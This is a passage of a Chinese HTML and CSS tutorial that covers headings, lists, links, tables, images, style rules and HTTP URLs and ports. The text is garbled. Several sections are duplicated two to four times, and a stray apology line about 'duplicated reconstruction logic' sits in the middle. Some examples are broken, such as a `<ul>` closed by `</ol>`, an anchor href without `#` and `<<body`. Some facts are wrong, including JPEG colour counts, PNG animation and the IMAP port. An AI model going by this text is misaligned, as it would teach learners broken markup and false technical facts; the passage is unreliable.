"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html>
<head>
</head>
<body>

</body>
</html>
```

```html
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<Title>
在窗口标题栏显示的示例标题
</title>
</head>
<body>
<p>示例文本</p>
</body>
</html>
```

## HTML 元素

在本章中，将用通俗的术语介绍许多 HTML 元素。例如，引入了 `h1` 元素用于创建大号标题。大多数显示细节，如使用何种字体、字体大小以及标题在行中的对齐方式，都没有指定。这是因为 HTML 旨在指定文档的逻辑结构，而文档的显示样式应该由 CSS 来指定，CSS 将在本章的后续章节进行介绍。每种网络浏览器都有呈现这些元素的默认方式，并可以使用 CSS 规范来更改默认呈现效果。

HTML 支持 `h1`、`h2`、`h3`、`h4`、`h5` 和 `h6` 元素来创建字体大小递减的标题。

`p` 元素用于创建段落。连续段落之间会有额外的垂直间距。空白字符（换行、制表符和空格）仅用于分隔连续的单词，连续的空白字符等同于一个。换行符在网络浏览器的呈现中不会换行。要换行但避免由新段落引入的空间，请使用形式为 `<br/>` 的 `br` 元素。`b` 元素，如 `<b>text</b>`，将使其文本以粗体形式显示。

`i` 元素，如 `<i>text</i>`，将使其文本以斜体形式显示。`b` 和 `i` 元素可以嵌套，如 `<b><i>text</i></b>`，以使其文本以粗体斜体形式显示。

`tt` 元素，如 `<tt>text</tt>`，将使其文本以等宽字体显示。

`pre` 元素 `<pre>text</pre>` 内部的文本将以等宽字体显示，并保留所有空白字符。`pre` 元素内部可以使用 `b` 和 `i` 元素。

空 `hr` 元素 `<hr/>` 可用于在网页上创建水平线。

以下是一个使用上述元素的 HTML 代码段及其在网络浏览器中的呈现（将该 HTML 代码段复制到 HTML 骨架的 `body` 元素中，并在网络浏览器中加载该 HTML 骨架）。

```html
<h2>大号标题</h2>

<p>连续的空格等同于一个，换行符不会在**网络浏览器**中中断当前行。</p>

<p>要在不创建 `<br/>` 新段落的情况下换行，请使用 `<i>br</i> 元素。</p>

<p>你可以使用 `<i>hr/</i> 元素引入 <tt>水平线</tt>。</p>
```

```html
<pre>
要用等宽字体显示预格式化文本，请使用 <i>pre</i> 元素
</pre>
<hr/>
```



## 2.2.3 创建列表

`ul`（无序列表）元素可创建项目列表，其中每个项目都是一个 `li` 元素。以下是一个包含两个项目的无序列表：

```html
<ul>
<li>Disc item 1</li>
<li>Disc item 2</li>
</ul>
```



`ol`（有序列表）元素可创建编号列表，其中每个项目都是一个 `li` 元素。以下是一个包含两个项目的有序列表：

```html
<ol>
<li>Disc item 1</li>
<li>Disc item 2</li>
</ol>
```

`ul` 元素支持 `style` 属性，格式为 `"list-style-type: type"`，其中 `type` 可以是 `disc`（实心圆，默认）、`circle`（空心圆）和 `square`（实心正方形）。

`ol` 元素支持 `style` 属性，格式为 `"list-style-type: type"`，其中 `type` 可以是 `decimal`（1, 2, 3, ...）、`lower-roman`（i, ii, iii, ...）和 `lower-alpha`（a, b, c, ...）。`ol` 元素还支持 `start` 属性来指定起始数字/字母。例如，以下有序列表第一个项目的序列号为 2。

```html
<ol start="2"><li>Item 2</li><li>Item 3</li></ol>
```

`ol` 中的 `li` 元素可以使用属性值来指定无序的序列号。例如，以下列表第二个项目的序列号为 3。

```html
<li>Item 1</li><li value="3">Item 3</li>
```

以下是一个使用上述元素的 HTML 代码段及其在网络浏览器中的呈现（将该 HTML 代码段复制到 HTML 骨架的 `body` 元素中，并在网络浏览器中加载该 HTML 骨架）。

```html
<ul>
<li>Disc item 1</li>
<li>Disc item 2</li>
</ul>

<ul style="list-style-type: square">
<li>Square 1</li>
<li>Square 2</li>
</ol>

<ol style="list-style-type: decimal">
<li>Item 1</li>
<li>Item 2</li>
</ol>
```


`ol` 元素支持 `style` 属性，格式为 `"list-style-type: type"`，其中 `type` 可以是 `decimal`（1, 2, 3, ...）、`lower-roman`（i, ii, iii, ...）和 `lower-alpha`（a, b, c, ...）。`ol` 元素还支持 `start` 属性来指定起始数字/字母。例如，以下有序列表第一个项目的序列号为 2。

```html
<ol start="2"><li>Item 2</li><li>Item 3</li></ol>
```

`ol` 中的 `li` 元素可以使用属性值来指定无序的序列号。例如，以下列表第二个项目的序列号为 3。

```html
<li>Item 1</li><li value="3">Item 3</li>
```

以下是一个使用上述元素的 HTML 代码段及其在网络浏览器中的呈现（将该 HTML 代码段复制到 HTML 骨架的 body 元素中，并在网络浏览器中加载该 HTML 骨架）。

```html
<ul>
<li>Disc item 1</li>
<li>Disc item 2</li>
</ul>

<ul style="list-style-type: square">
<li>Square 1</li>
<li>Square 2</li>
</ol>

<ol style="list-style-type: decimal">
<li>Item 1</li>
<li>Item 2</li>
</ol>
```

等等，我抱歉，上面的手动重构逻辑存在重复。让我根据提供的文本提供一个干净、最终的修正版本。

```html
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<Title>
在窗口标题栏显示的示例标题
</title>
</head>
<body>
<p>示例文本</p>
</body>
</html>
```

在本章中，将用通俗的术语介绍许多 HTML 元素。例如，引入了 `h1` 元素用于创建大号标题。大多数显示细节，如使用何种字体、字体大小以及标题在行中的对齐方式，都没有指定。这是因为 HTML 旨在指定文档的逻辑结构，而文档的显示样式应该由 CSS 来指定，CSS 将将在本章的后续章节进行介绍。每种网络浏览器都有呈现这些元素的默认方式，并可以使用 CSS 规范来更改默认呈现效果。

HTML 支持 `h1`、`h2`、`h3`、`h4`、`h5` 和 `h6` 元素来创建字体大小递减的标题。

`p` 元素用于创建段落。连续段落之间会有额外的垂直间距。空白字符（换行、制表符和空格）仅用于分隔连续的单词，连续的空白字符等同于一个。换行符在网络浏览器的呈现中不会换行。要换行但避免由新段落引入的空间，请使用形式为 `<br/>` 的 `br` 元素。`b` 元素，如 `<b>text</b>`，将使其文本以粗体形式显示。

`i` 元素，如 `<i>text</i>`，将使其文本以斜体形式显示。`b` 和 `i` 元素可以嵌套，如 `<b><i>text</i></b>`，以使其文本以粗体斜体形式显示。

`tt` 元素，如 `<tt>text</tt>`，将使其文本以等宽字体显示。

`pre` 元素 `<pre>text</pre>` 内部的文本将以等宽字体显示，并保留所有空白字符。`pre` 元素内部可以使用 `b` 和 `i` 元素。

空 `hr` 元素 `<hr/>` 可用于在网页上创建水平线。

以下是一个使用上述元素的 HTML 代码段及其在网络浏览器中的呈现（将该 HTML 代码段复制到 HTML 骨架的 body 元素中，并在网络浏览器中加载该 HTML 骨架）。

```html
<h2>大号标题</h2>

<p>连续的空格等同于一个，换行符不会在网络浏览器中中断当前行。</p>

<p>要在不创建 `<br/>` 新段落的情况下换行，请使用 `<i>br</i> 元素。</p>

<p>你可以使用 `<i>hr/</i> 元素引入 <tt>水平线</tt>。</p>
```

```html
<pre>
要用等宽字体显示预格式化文本，请使用 <i>pre</i> 元素
</pre>
<hr/>
```


## 2.2.3 创建列表

`ul`（无序列表）元素可创建项目列表，其中每个项目都是一个 `li` 元素。以下是一个包含两个项目的无序列表：

```html
<ul>
<li>Disc item 1</li>
<li>Disc item 2</li>
</ul>
```


`ol`（有序列表）元素可创建编号列表，其中每个项目都是一个 `li` 元素。以下是一个包含两个项目的有序列表：

```html
<ol>
<li>Disc item 1</li>
<li>Disc item 2</li>
</ol>
```

`ul` 元素支持 `style` 属性，格式为 `"list-style-type: type"`，其中 `type` 可以是 `disc`（实心圆、默认）、`circle`（空心圆）和 `square`（实心正方形）。

`ol` 元素支持 `style` 属性，格式为 `"list-style-type: type"`，其中 `type` 可以是 `decimal`（1, 2, 3, ...）、`lower-roman`（i, ii, iii, ...）和 `lower-alpha`（a, b, c, ...）。`ol` 元素还支持 `start` 属性来指定起始数字/字母。例如，以下有序列表第一个项目的序列号为 2。

```html
<ol start="2"><li>Item 2</li><li>Item 3</li></ol>
```

`ol` 中的 `li` 元素可以使用属性值来指定无序的序列号。例如，以下列表第二个项目的序列号为 3。

```html
<li>Item 1</li><li value="3">Item 3</li>
```

以下是一个使用上述元素的 HTML 代码段及其在网络浏览器中的呈现（将该 HTML 代码段复制到 HTML 骨架的 body 元素中，并在网络浏览器中加载该 HTML 骨架）。

```html
<ul>
<li>Disc item 1</li>
<li>Disc item 2</li>
</ul>

<ul style="list-style-type: square">
<li>Square 1</li>
<li>Square 2</li>
</ol>

<ol style="list-style-type: decimal">
<li>Item 1</li>
<li>Item 2</li>
</ol>
```

# 第 2 章 使用 Web 标准的网页

之前的 URL 也称为网页的绝对路径。绝对路径可以在任何网页中用作超链接目标，而独立于页面自身的 URL。如果一个网页需要链接到同一 Web 服务器上的另一个网页（例如在同一个 Web 服务器目录中），你可以使用较短的相对路径，即相对于当前页面位置的路径。让我们用一个场景来来说明相对路径。假设一个 Web 应用有三个嵌套目录 `a/b/c`；目录 `a` 包含目录 `b` 和文件 `a.html`；目录 `b` 包含目录 `c` 和文件 `b1.html`；目录 `c` 包含文件 `c.html`。文件 `b1.html` 可以使用超链接 `<a href="../a.html">链接到文件 a.html</a>` 链接到文件 `a.html`，其中 `../` 代表目录 `b` 的父目录；使用超链接 `<a href="../b2.html">链接 B/a</a>` 链接到文件 `b2.html`；并使用超链接 `<a href="../c.html">链接 C/b</a>` 链接到文件 `c.html`。相对路径中使用的斜杠 `/` 与操作系统无关。

默认情况下，点击超链接会导致该超链接的目标页面替换 Web 浏览器中的当前页面。你也可以在元素中使用 `target` 属性在新的 Web 浏览器实例中显示目标页面，如下：

```html
<a href="http://www.google.com" target="_blank">Google.com</a>
```

你可以使用超链接来发送电子邮件。你只需要使用 `mailto:email-address` 格式的 URL。如果用户点击以下超链接，用户的默认邮件应用程序将启动，并在收件人（To）字段填充地址 admin@gmail.com。

```html
<a href="mailto:admin@gmail.com?subject=Comment">联系我们</a>
```

你还可以通过使用形式为 `?subject=Title` 的查询字符串为邮件指定主题（查询字符串的定义参见第 46 页第 2.4.1 节）。当用户点击以下超链接时，默认邮件应用程序将启动，收件人文本字段中显示 admin@gmail.com，主题（Subject）文本字段中显示 Comment。

```html
<a href="mailto:admin@gmail.com?subject=Comment">Comment
```

当用户将光标悬停在超链接上时，你还可以通过使用元素的 `title` 属性显示工具提示（tooltip）。当用户将鼠标光标停在以下超链接上方时，光标旁边将显示工具提示“Comment on the topic”。

```html
<a href="mailto:admin@gmail.com?subject=Comment" title="Comment on the topic">
```

到目前为止，你一直在使用超链接链接到不同的网页。你还可以使用超链接链接到同一页或其他网页上的锚点（anchors）。当用户点击此类超链接时，Web 浏览器将跳转并显示锚点附近的文本。此功能对于长文档非常有用。锚点类似于 HTML 文件中的书签，可以作为超链接的目标。为了在 HTML 文档文本 `test.html` 中为 Conclusion（结论）一词定义锚点，将 Conclusion 设置为锚点元素 `<a>` 的值：

```html
<a name="conclusion">Conclusion</a>
```

其中属性 `name` 的值可以是任何字符串。要在此文件中创建一个指向该锚点的超链接，你可以使用如下超链接：

```html
<a href="conclusion">查看结论</a>
```

要从同一目录下的另一个文件链接到该锚点，你可以使用如下超链接：

```html
<a href="test.html#conclusion">查看结论</a>
```

## 2.2.3.6 创建表格

表格是展示数据的一种流行格式。在采用 CSS 之前，表格也被用于格式化网页布局。

一个表格由若干行组成，每行进一步划分为若干数据字段。在 HTML 中，`<table>` 元素封装所有的表格行，`<tr>`（表格行）元素指定每行，`<td>`（表格数据）元素指定每个数据字段。`<th>` 元素与 `<td>` 元素类似，但它用于指定表头，表头的呈现样式将与表格数据不同。表格还可以有一个通过 `<caption>` 元素创建的可选标题（caption）。以下是一个具有默认属性的简单表格：

```html
<table>
<tr><th>符号</th><th>实体</th></tr>
<tr><td>&lt;</td><td>&amp;</td></tr>
<tr><td>&gt;</td><td>&amp;</td></tr>
</table>
```



默认情况下，表格没有边框。你可以使用表格元素的 `border` 属性通过重写起始标签为 `<table border="1">` 来添加宽度为 1 像素（px）的实线边框。你可以使用 `<td>` 元素的 `width` 属性设置列宽，例如 `<th width="100px">`。你可以通过设置该列中任何单个 `<th>` 或 `<td>` 元素的宽度来设置表格列的宽度。如果一个数据字段需要跨两列且其右侧有一列，你可以使用 `<td>` 元素的 `colspan` 属性合并两个相邻的数据字段，例如 `<td colspan="2">`。以下显示了增加了新功能的之前的表格。

```html
<table border="1">
<tr><th width="100px">符号</th><th>实体</th></tr>
<tr><td>&lt;</td><td>&amp;</td></tr>
<tr><td>&gt;</td><td>&amp;</td></tr>
<tr><td colspan="2">可用</td></tr>
</table>
```



默认情况下，表格没有边框。你可以使用表格元素的 `border` 属性通过重写起始标签为 `<table border="1">` 来添加宽度为 1 像素（px）的实线边框。你可以使用 `<td>` 元素的 `width` 属性设置列宽，例如 `<th width="100px">`。你可以通过设置该列中任何单个 `<th>` 或 `<td>` 元素的宽度来设置表格列的宽度。如果一个数据字段需要跨两列且其右侧有一列，你可以使用 `<td>` 元素的 `colspan` 属性合并两个相邻的数据字段，例如 `<td colspan="2">`。

在此处，你可能希望通过 `<td>` 元素的 `align` 属性让文本居中显示。是的，你可以这样做，但你需要为每个 `<td>` 元素重复该属性，这是一项繁琐的工作。稍后你将看到如何使用 CSS 更高效的方式自定义表格展示。

## 2.2.3.7 插入图形

图形可以使网页生动。它们对于用户友好的网站至关重要。有三种流行的图形格式。图形交换格式（GIF）每个像素表示 8 位，因此仅支持 256 种颜色。许多应用程序可以使用 GIF 使背景透明并更容易与文本混合。

另一方面，联合图像专家组（JPEG, JPG）每个像素表示 24 位，因此支持 160 万种颜色。你可以权衡 JPEG 文件大小与质量：压缩率越高，精度越低。JPEG 文件不支持透明背景或内置动画，而 GIF 支持。

便网络图形（PNG）是一种结合了 GIF 和 JPEG 优点并解决了 GIF 专利问题的格式。PNG 图片使用 24 或 48 位表示像素。PNG 格式支持无损压缩、透明背景和内置动画。由于更多的 Web 浏览器支持它，建议所有图形都使用 PNG。

图像元素可以在当前页面位置插入图像，如 ``，其中 `src` 属性指定图像文件名。你还可以使用图像元素的 `width` 和 `height` 属性以像素指定图像的宽度和高度，并使用 `alt` 属性为图像指定短描述，当 Web 浏览器无法显示图像时显示该描述。通常我们不会同时指定宽度和高度，因为可能会改变原始图像的宽高比，正如后续示例中的第二个图像所示。你还可以将图像作为超链接，如后续示例中的第三个较小图像。在这里，元素的 `target` 属性用于在新的窗口或标签中呈现目标图像，`title` 属性用于设置工具提示，当鼠标光标停在超链接图像上时显示消息。默认情况下，嵌入超链接的图像有边框。要删除此边框，你可以使用图像元素的 `style` 属性并将其设置为 `border:none`，如 ``。

```html
<image src="tomcat.gif" width="40" />
```



你可以使用样式属性 `float` 将图像向左或向右浮动，取决于你为 `float` 赋值 `left` 还是 `right`。文本将环绕图像排列。要让文本垂直向下移动直到图像占据的空间被“清除”，请使用样式属性 `clear`。以下示例说明了这些功能，其中 `<h3 style="clear: left">` 将图像之前的 h3 标题立即移动，并将其向左对齐。

```html
<image src="tomcat.gif" style="float:left"/>
<h3>Tomcat Server</h3>
<p>Tomcat是一个开源项目，支持 servlet 容器和基础 Web 服务器功能。</p>
<h3 style="clear: left">Apache Web Server</h3>
<p>Apache是一个功能 Web 服务器。为了让它支持 servlet/JSP 技术，通常会将 Tomcat Web 服务器集成到 Apache 之中及其之后。</p>
```

| 示例 HTML 特性 - Mozilla Firefox |
| :--- |
| 文件 编辑 视图历史 书签 工具 帮助 |
| Tomcat Web 服务器 |
| Tomcat是一个开源项目，支持 servlet 容器和基础 Web 服务器功能。 |
| Apache是一个功能 Web 服务器。为了让它支持 servlet/JSP 技术，通常会将 Tomcat Web 服务器集成到 Apache 之中及其之后。 |

## 2.3 级联样式表（CSS）

HTML 4 之前的版本 HTML 使用标签来同时标记逻辑数据结构（`h1` 和 `p` 元素）和表现（如 `b` 和 `i` 元素），并且缺乏应用一个指令格式化多个元素的能力。从 HTML 4 版本开始，建议使用 HTML 标签主要标记逻辑数据结构，而表现细节将通过独立的、更好的级联样式表来指定。

级联样式表基于文字处理器样式概念的成功。在文字处理中，你可以为每种类型的文档元素定义格式样式，并可以通过应用预定义的样式对特定的文档元素实例进行格式化。


每个`浏览器`都有渲染 HTML 元素的默认设置。例如，HTML 标准没有规定`h1`元素的字体大小，浏览器设计人员有权选择字体来呈现`h1`元素，只要`h1`元素的字体大小不小于`h2`字体元素即可。浏览器的默认行为可以通过多种方式进行修改：

- 用户可以使用浏览器的图形用户界面（最可能在“视图”菜单下）来更改 HTML 文档表现的某些方面。例如，几乎所有的浏览器都允许用户更改文本大小。
- HTML 文件可以通过在`head`元素内部使用`link`元素导入外部级联样式表。以下示例显示了如何从与 HTML 文件在同一目录下的名为`default.css`的 CSS 文件导入样式表。

```html
<head>
<title> ...</title>
<link rel="stylesheet" type="text/css" href="default.css" />
<style>
本地 CSS 定义写在此处
</style>
</head>
```

- HTML 文件还可以在嵌套在`head`元素内的`style`元素中指定一些本地样式规则，如上一个示例所示。
- HTML 文件中的每个起始标签都也可以包含一个`style`属性，为该特定元素定义样式属性。你在本章前面已经看到过此类类别的一些示例。

如果一个 HTML 元素具有某些 HTML 标准未定义的表现方面，浏览器将按照上述列表的相反顺序搜索它们的潜在定义，优先查找最近的定义，并应用第一个找到的定义。这就是级联样式表之所以得此名的第一个原因。你始终可以使用低级样式定义来覆盖通用样式规则。

另一方面，HTML 元素是高度嵌套的。为元素指定的样式规则也适用于嵌套在其中的元素元素，除非它在子元素中被覆盖。这种行为也暗示了“级联”样式表的名称含义。

让许多 HTML 文件通过外部 CSS 文件共享样式定义的能力是非常重要的。网站可以通过仅修改一个 CSS 文件来更改许多网页的表现。

接下来的章节将展示许多 CSS 定义。要测试这些定义，你可以将它们复制到`style`元素内部，也可以将它们复制到通过`link`元素链接到 HTML 文件的外部 CSS 文件中，如本节前文所示。

## 2.3 级联样式表（CSS）

### 2.3.1 样式规则格式

样式表由一系列样式规则组成，CSS 中的大多数样式规则的形式如下：

```css
e1, e2 ... {attribute: value; attribute: value; ... attribute_n;}
```

其中“e1 e2 ... en”称为选择器，是一组由空格分隔的元素列表，除了第一个元素外，每一个元素都嵌套在其左侧的元素中（稍后将引入基于属性`id`和`class`的表示法表示元素的子，也可以用于样式规则选择器，但选择器列表中的泛指概念仍然成立）。该样式规则为当前文档中连续嵌套在`{ek-1, ... ek-2}, e1`中的所有`ek`元素指定属性值。一个简单的例子是：

```css
p {border-style: solid; border-width: 2px}
```

这表示当前文档中的所有段落都将具有 2 像素宽的外部边框。如果你需要应用此，请使用：

```css
p {border-style: solid; border-width: 2px}
```

```html
<p style="border-style: solid; border-width: 2px">
```

### 2.3.2 文本格式化

字体大小可以使用`font-size`指定。常用的字体大小值包括`small`、`medium`（默认）、`large`、`12px`（任何像素值）以及`120%`（基础大小的 120%）。

### 2.3.3 元素实例的格式化

到为止，你已经学习了如何对特定类型的所有元素（例如`p`）应用样式规则。在实践中，你需要能够处理特殊情况。例如，在指定所有段落的首行缩进的同时，你可能也希望第一个段落的第一行没有文本缩进。你可能还希望文档中不同部分的段落具有不同的格式。

如果你需要对 HTML 文档中唯一的元素实例（例如某个特定的段落）进行不同的格式化，可以使用属性`id`为该元素分配一个唯一的字符串值，并使用特殊的样式规则来对该元素实例进行不同的格式化。该样式规则的选择器是井号`#`后面跟一个`id`字符串值。例如，以下样式规则和 HTML 实体会将每个段落的第一行缩进 20 像素，但第一个段落除外，它将没有缩进。HTML 文件中的每个属性`id`在文件中必须具有唯一的值，尽管某些网络浏览器并不强制执行这一规则。

```html
p { text-indent: 20px }
#first { text-indent: 0px }

<<body
<p id="first">No first-line indentation ...</p>
<p>With first-line 20 pixel indentation ...</p>
....
</body>
```

如果你需要对 HTML 文档中元素实例的子集（例如某个部分中的所有段落）进行不同的格式化，可以使用属性`class`为这些元素实例分配一个类名，并使用特殊的样式规则对这些元素实例进行不同的格式化。该样式规则的选择器是点字符`.`后面跟类名。一个文档可以有多个带有相同`class`值的元素，这些元素可能基于不同的标签名。以下样式规则和 HTML 显示了你如何定义一个名为“important”的类来将几个元素显示为红色。

```css
p { color: black }
.important { color: red }
```

```html
<body>

<h2 class="important">红色标题</h2>

<p class="important">此段落的文本将是红色的</p>

<p>此段落的文本将是黑色的</p>

</body>
```

### 2.3.4 使用`span`和`div`格式化文本或文档的部分

到为止，你已经学习了如何对元素中的所有文本进行不同的格式化。有时你还需要对元素中的几个单词进行不同的格式化。目前你无法做到这一点，因为这些单词可能不是元素中的所有文本，你的样式规则或样式属性只能应用于整个元素。解决方案是引入一种新类型的元素：`span`。`span`元素本身对格式化没有视觉影响。但像所有 HTML 元素一样，`span`支持样式、`id`和`class`；因此，你可以使用样式属性和样式规则对`span`元素中的文本进行格式化。

另一方面，你可能希望以特殊方式格式化 HTML 文档某个特定逻辑部分的所有元素。你可以使用`div`元素封装该逻辑部分的所有元素，并分配一个`id`或`class`属性值来识别此划分。你还可以使用样式属性对整个`div`框应用格式化。像`span`一样，`div`本身对网页的视图没有视觉影响。它依赖样式规则或样式属性来格式化其内容。由于`span`是内联块，是文本行的一部分，不会开启新行；而`div`通用于封装段落、列表和标题等元素，这些元素与`div`元素外的元素之间会有垂直间距。

以下示例说明了本小节引入的 HTML 特性。它使用`id1`将文档中的一个术语显示为红色下划线。它定义了两个划分，并在不同的边界框中显示。尽管所有`class`为“keyword”的元素都被设置为蓝色斜体，但划分“ajax”所有`class`为“keyword”的元素都被设置为绿色斜体。正如之前解释的，针对特定元素子集的样式规则会覆盖应用于该子集的更大范围的通用样式规则。

```css
#id1 {color: red; text-decoration: underline}

.keyword {color: blue; font-style: italic}

#ajax .keyword {color: green; font-style: italic}

#intro {border: 4px blue outset;
margin: 10px; padding:5px}
```

```css
#ajax {border: 4px blue inset;
margin: 10px; padding:5px}
```

```html
<style>

<body>

<div id="intro">

<h3>介绍</h3>

<p>本课程向你介绍了
支撑最新技术的
<span id="id1">基础概念</span>，
这些技术包括如
<span class="keyword">Ajax</span> 和
<span class="keyword">面向服务的
架构</span>。</p>

</div>

<div id="ajax">

<h3>什么是 Ajax？</h3>

<p>Ajax 支持网页的
<span class="keyword">增量
更新</span>，从而提高了
web 应用程序的
响应性。</p>

</div>

</body>
```

`img/c1949401ee3ced5f6dead59b2dba7_58.png`

你可以使用属性`width`来指定划分的宽度，其值可以是`100px`或浏览器宽度的`40%`这种形式。你可以使用属性`float`来指定该划分应该向左侧还是右侧浮动，取决于你分配的是左侧还是右侧。例如，如果你为两个划分添加以下样式规则，它们将并排显示，每个占据屏幕宽度的 40%。

```css
#intro {float: left; width: 40%}
#ajax {float: right; width: 40%}
```

`img/c1949401ee3ced5f6dead59b2dba7_59.png`

有时你可能希望将划分相对于其父元素（通常是`body`元素）放在网页的特定位置。在其他情况下，你可能使用`div`元素封装某个逻辑部分的所有元素，并分配一个`id`或`class`属性值来识别此划分。你还可以使用样式属性对整个`div`框应用格式化。像`span`一样，`div`本身对网页视图没有视觉影响。它依赖样式规则或样式属性来格式化其内容。由于`span`是内联块，是文本行的一部分，不会开启新行；而`div`通用于封装段落、列表和标题等元素，这些元素与`div`元素外的元素之间会有垂直间距。

以下示例说明了本小节引入的 HTML 特性。它使用“id1”将文档中的一个术语显示为红色下划线。它定义了两个划分，并在不同的边界框中显示。尽管所有`class`为“keyword”的元素都被设置为蓝色斜体，但划分“ajax”所有`class`为“keyword”的元素都被设置为绿色斜体。正如之前解释的，针对特定元素子集的样式规则会覆盖应用于该子集的更大范围的通用样式规则。

```css
#id1 {color: red; text-decoration: underline}
.keyword {color: blue; font-style: italic}
#ajax .keyword {color: green; font-style: italic}
#intro {border: 4px blue outset;
margin: 10px; padding:5px}
```

你可以使用属性`width`来指定划分的宽度，其值可以是`100px`或浏览器宽度的`40%`这种形式。你可以使用属性`float`来指定该划分应该向左侧还是右侧浮动，取决于你分配的是左侧还是右侧。例如，如果你为两个划分添加以下样式规则，它们将并排显示，每个占据屏幕宽度的 40%。

```css
#intro {float: left; width: 40%}
#ajax {float: right; width: 40%}
```

`img/c1949401ee3ced5f6dead59b2dba7_59.png`

有时你可能希望将划分相对于其父元素（通常是`body`元素）放在网页的特定位置。在其他情况下，你可能使用`div`元素封装某个逻辑部分的所有元素，并分配一个`id`或`class`属性值来识别此划分。你还可以使用样式属性对整个`div`框应用格式化。像`span`一样，`div`本身对网页的视图没有视觉影响。它依赖样式规则或样式属性来格式化其内容。由于`span`是内联块，是文本行的一部分，不会开启新行；而`div`通用于封装段落、列表和标题等元素，这些元素与`div`元素外的元素之间会有垂直间距。

以下示例说明了本小节引入的 HTML 特性。它使用“id1”将文档中的一个术语显示为红色下划线。它定义了两个划分，并在不同的边界框中显示。尽管所有`class`为“keyword”的元素都被设置为蓝色斜体，但划分“ajax”所有`class`为“keyword”的元素都被设置为绿色斜体。正如之前解释的，针对特定元素子集的样式规则会覆盖应用于该子集的更大范围的通用样式规则。

```css
#id1 {color: red; text-decoration: underline}
.keyword {color: blue; font-style: italic}
#ajax .keyword {color: green; font-style: italic}
#intro {border: 4px blue outset;
margin: 10px; padding:5px}
```

有时你可能希望将划分相对于其父元素（通常是`body`元素）放在网页的特定位置。在其他情况下，你可能使用`div`元素封装某个逻辑部分的所有元素，并分配一个`id`或`class`属性值来识别此划分。你还可以使用样式属性对整个`div`框应用格式化。像`span`一样，`div`本身对网页的视图没有视觉影响。它依赖样式规则或样式属性来格式化其内容。由于`span`是内联块，是文本行的一部分，不会开启新行；而`div`通用于封装段落、列表和标题等元素，这些元素与`div`元素外的元素之间会有垂直间距。

以下示例说明了本小节引入的 HTML 特性。它使用“id1”将文档中的一个术语显示为红色下划线。它定义了两个划分，并在不同的边界框中显示。尽管所有`class`为“keyword”的元素都被设置为蓝色斜体，但划分“ajax”所有`class`为“keyword”的元素都被设置为绿色斜体。正如之前解释的，针对特定元素子集的样式规则会覆盖应用于该子集的更大范围的通用样式规则。

```css
#id1 {color: red; text-decoration: underline}
.keyword {color: blue; font-style: italic}
#ajax .keyword {color: green; font-style: italic}
#intro {border: 4px blue outset;
margin: 10px; padding:5px}
```

`img/c1949401ee3ced5f6dead59b2dba7_58.png`

级联样式表（CSS）

`img/c1949401ee3ced5f6dead59b2dba7_60.`

## 2.4 HTML 表单与 HTTP 基础

Web 浏览器通过 HTTP 与 Web 服务器交互，HTTP 运行在 TCP/IP 连接之上。HTTP 的主要功能是 Web 浏览器从 Web 服务器下载网页或任何数据，或向 Web 服务器提交数据。HTML 表单元素可以在 Web 浏览器中创建图形界面并与 Web 服务器交互。

### 2.4.1 HTTP 基础

你需要回顾 URL 的概念和通用格式。URL 是唯一标识 Web 资源的地址（例如某个特定的网页），它具有以下通用格式：

```text
http://domain-name:port/application/resource?query-string
```

`http`是访问资源的协议（`https`和`ftp`是流行的替代协议，代表安全 HTTP 和文件传输协议）；`domain-name`用于唯一标识互联网上的服务器，如`www.amazon.com`；`port`在 0 到 65535 之间，用于识别特定的服务器进程；`application`是与网站、Web 应用程序或 Web 服务相关的服务器文件夹；`resource`可能是服务器硬盘上的 HTML 或脚本/程序文件名；可选的`query string`将用户数据传递给 Web 服务器。

提示窗口。从根本上，每台服务器计算机通过一个或多个 IP 地址进行标识，并使用一个或多个域名作为每个 IP 地址的昵号，以便于人们使用。有一个特殊的域名“localhost”，它通常被定义为本地 IP 地址`127.0.0.1`的别名。域名“localhost”和 IP 地址`127.0.0.1`用于标识本地计算机，在 Web 浏览器和 Web 服务器运行在同一台计算机上测试 Web 应用程序时非常有用。当用户使用域名指定 URL 时，Web 浏览器将使用互联网上的 DNS（域名服务器）将域名翻译为 IP 地址。


服务器计算机可能运行许多服务器应用程序，如 Web 服务器和数据库服务器，并且可能在同一台计算机上运行多个 Web 服务器。正在运行的程序被称为进程（process）。计算机可能同时运行许多服务器进程，其中某些进程可能在运行同一个应用程序。当客户端向这台计算机发送信息或请求时，需要一种方式让客户端指定该信息或请求指向特定的服务器进程。

端口号用于标识不同的服务器进程。每个服务器进程将占用一个未使用的端口号，并仅监听指向该端口号的消息。没有两个服务器进程可以使用相同的端口号。如果你启动的服务器程序使用的端口当前被另一个进程占用，该服务器程序将无法启动。

从 0 到 1024 的端口号预留给常用的服务器应用程序，用户应用程序不应使用它们。例如，默认情况下 Web 服务器的 HTTP 使用端口 80，HTTPS 使用端口 443，FTP 使用端口 20 和 21（分别用于数据传输和 FTP 命令），SSH（安全外壳）使用端口 22，telnet 使用端口 23，DNS 使用端口 53，以及 IMAP 邮件系统服务器使用端口 220。许多服务器应用程序允许你更改端口号。

Web 浏览器或客户端程序向 Web 服务器提交数据的一种方法是使用查询字符串（query string），它最初用于发送数据库查询。查询字符串以问号字符 `?` 开头，并由 `&` 分隔的一系列 `"name=value"`（名称和值均为字符串）赋值组成。

